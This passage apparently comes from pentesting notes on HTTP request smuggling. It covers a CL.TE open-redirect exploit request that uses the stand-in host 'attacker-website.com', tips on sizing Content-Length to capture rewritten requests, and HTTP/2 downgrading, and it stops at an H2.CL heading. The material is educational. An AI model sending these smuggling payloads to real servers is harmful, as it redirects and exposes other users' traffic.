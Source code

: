 ### Open redirect

**CL.TE**

```http
GET /home HTTP/1.1
Host: normal-website.com

HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
```

Exploit

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Transfer-Encoding: chunked

0

GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
```

---

## Content-Length in the smuggled request

The value in the `Content-Length` header in the smuggled request will determine how long the back-end server believes the request is. If you set this value too short, you will receive only part of the rewritten request; if you set it too long, the back-end server will time out waiting for the request to complete. Of course, the solution is to guess an initial value that is a bit bigger than the submitted request, and then gradually increase the value to retrieve more information, until you have everything of interest.

---

## HTTP/2 request smuggling

**HTTP/2 downgrading**

HTTP/2 downgrading converts HTTP/2 requests into HTTP/1 syntax, allowing web servers and proxies to support HTTP/2 clients while communicating with HTTP/1 back-end servers.

---

## Identification

### H2.CL
